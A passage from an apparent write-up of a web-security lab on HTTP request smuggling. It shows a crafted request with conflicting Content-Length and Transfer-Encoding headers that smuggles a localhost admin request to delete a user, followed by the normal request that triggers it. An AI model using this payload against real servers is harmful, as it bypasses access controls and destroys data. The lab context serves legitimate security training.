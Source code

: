 Now we got a "200 OK" and a html file, in which we see that we are in the admin page, and we see the list of users and the options to delete them:

```html
<a href="/admin/delete?username=carlos">Delete</a>
```

Now in order to fulfill the challenge we add that to our attacking request to smuggle:

Attack:
```http
POST / HTTP/1.1
Host: 0a57003e032e35ce81e67043008300bc.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 138
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 3

x=
```

The request below is the normal request which is sent always after the attacking request.

Normal:
```http
POST / HTTP/1.1
Host: 0a57003e032e35ce81e67043008300bc.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```
